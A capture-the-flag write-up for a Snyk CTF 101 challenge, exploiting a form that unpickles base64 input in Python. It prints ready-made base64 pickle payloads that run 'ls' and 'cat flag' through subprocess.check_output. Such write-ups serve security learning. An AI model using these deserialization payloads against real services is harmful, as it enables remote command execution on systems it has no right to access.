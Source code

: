 # Sauerkraut

What goes best on a hotdog?

## Objective

There is a form page, in which, after a number of try with some string, we receive in output this string

*Invalid base64-encoded string: number of data characters (13) cannot be 1 more than a multiple of 4*

## Resources

***Link***: https://ctf-101.snyk.io/challenges#Sauerkraut

***Server**: http://35.211.215.131:8000/

## Hint

This error could make us think about a vulnerability regarding python and a string base 64. If we google: *python base64 pickles vuln*

Google will give us as first result this url: https://davidhamann.de/2020/04/05/exploiting-python-pickle/

This article has a similar case that could be helpful for us

## Solution

Reading the article above could help us to understand how to pass the correct string to the form and run bash command on the target amachine.

I made a small script script.py that could trasform all the command serializing them.

These are the steps to take

```
python3.9 script.py 'ls'
string not base 64b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\nsubprocess\x94\x8c\x0ccheck_output\x94\x93\x94]\x94\x8c\x02ls\x94a\x85\x94R\x94.'
string base64 b'gASVKwAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlIwCbHOUYYWUUpQu'
```

```
python3.9 script.py 'cat flag'
string not base 64b'\x80\x04\x954\x00\x00\x00\x00\x00\x00\x00\x8c\nsubprocess\x94\x8c\x0ccheck_output\x94\x93\x94]\x94(\x8c\x03cat\x94\x8c\x04flag\x94e\x85\x94R\x94.'
string base64 b'gASVNAAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMA2NhdJSMBGZsYWeUZYWUUpQu'
```

